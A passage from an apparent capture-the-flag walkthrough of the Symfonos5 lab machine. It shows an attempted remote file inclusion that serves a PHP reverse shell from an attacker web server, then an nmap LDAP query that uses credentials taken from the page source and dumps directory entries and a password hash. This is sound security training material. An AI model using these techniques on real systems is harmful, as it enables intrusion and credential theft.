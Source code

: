 After poking around the pages nothing was found in the front end. BurpSuite was
then turned on to inspect what was going on behind the scenes.

After making a request to home.php part of the website, in burpsuite the
following request comes up in the background.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Symfonos5%20Walkthrough/media/b98b4f5533d91df9431f784c92edb641.png?raw=true)

The above request looks like it can be a Local or a Remote File Inclusion.

Low Privilege Exploitation
--------------------------

Let’s try to go the easier way first and get a reverse shell with RFI.

To test this out, a webserver needs to be running on the attacker machine.

One can simply use python SimpleHTTPServer:

```
lifesfun:/var/www/html\# python -m SimpleHTTPServer 80

Serving HTTP on 0.0.0.0 port 80 ...

192.168.211.150 - - [26/Jan/2020 20:40:27] "GET /php-reverse-shell.php HTTP/1.0"
200 -

192.168.211.150 - - [26/Jan/2020 20:40:48] "GET /php-reverse-shell.php HTTP/1.0"
200 -
```

However, the reverse shell didn't work.

#### Local File Inclusion

If RFI did not work, we can further test for LFI.

Let's explore admin.php's source code.

![](https://github.com/lifesfun101/Offensive-Security/blob/master/Walkthroughs/Symfonos5%20Walkthrough/media/a21ecb6ba67b9ddb282a18f42439a580.png?raw=true)

The source code presents us with ldap username and password.

#### Nmap ldap-search Script

```
lifesfun:/var/www/html# nmap 192.168.211.150 -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local", ldap.password="qMDdyZh3cT6eeAWD"'
Starting Nmap 7.80 ( https://nmap.org ) at 2020-01-26 21:01 EST
Nmap scan report for 192.168.211.150
Host is up (0.00038s latency).

PORT    STATE SERVICE
389/tcp open  ldap
| ldap-search: 
|   Context: dc=symfonos,dc=local
|     dn: dc=symfonos,dc=local
|         objectClass: top
|         objectClass: dcObject
|         objectClass: organization
|         o: symfonos
|         dc: symfonos
|     dn: cn=admin,dc=symfonos,dc=local
|         objectClass: simpleSecurityObject
|         objectClass: organizationalRole
|         cn: admin
|         description: LDAP administrator
|         userPassword: {SSHA}UWYxvuhA0bWsjfr2bhtxQbapr9eSgKVm
|     dn: uid=zeus,dc=symfonos,dc=local
```